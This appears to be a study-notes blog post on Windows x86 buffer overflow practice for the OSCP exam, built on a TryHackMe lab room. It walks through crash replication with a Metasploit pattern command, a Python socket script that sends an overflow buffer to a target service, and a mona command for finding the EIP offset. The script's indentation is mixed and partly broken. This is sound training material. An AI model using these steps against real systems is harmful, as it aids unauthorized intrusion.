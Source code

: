 ### Windows x86 Buffer Overflow Practice
Alright, so buffer overflows can be totally intimidating. However, based on the TryHackMe - Buffer Overflow Prep room provided above, I've created a collection of notes that helped me pass my exam buffer overflow with ease.

<p><br></p>

Note: Fuzzing is not required for the OSCP exam, so it is not covered in this post. However, the aforementioned TryHackMe room contains a great script for fuzzing a remote application.

<p><br></p>

### Crash Replication 
When performing crash replication, we first can run our existing proof of concept exploit against the vulnerable application. Upon verifying the application crashes as expected, we create a pattern of characters with the `pattern_create.rb` script from the Metasploit framework. Our pattern must be the same length as the payload that was used to cause the crash. This pattern will replace `<pattern_create>` in the code below. The `<buffer_string>` will also be replaced by the string belonging to the field we entered data into (i.e. `OVERFLOW1: <data_here>`, where `OVERFLOW1 = <buffer_string>`).
<p><br></p>

Pattern create:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <crash_length>
```
<p><br></p>

Script to crash application:
```python
import socket, time, sys 
 
ip = "MACHINE_IP" 

port = 1337 
prefix = "<buffer_string>" 
offset = 0 
overflow = "A" * offset 
retn = "" 
padding = "" 
payload = "<pattern_create>" 
postfix = "" 

buffer = prefix + overflow + retn + padding + payload + postfix 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

try: 
    s.connect((ip, port)) 
	print("Sending evil buffer...") 
	s.send(buffer + "\r\n") 
    print("Done!") 
except: 
    print("Could not connect.")
 ```
Upon crashing the application, we can run following `!mona` command in Immunity Debugger to determine the EIP offset.
<p><br></p>
```bash
!mona findmsp -distance <crash_length>
```
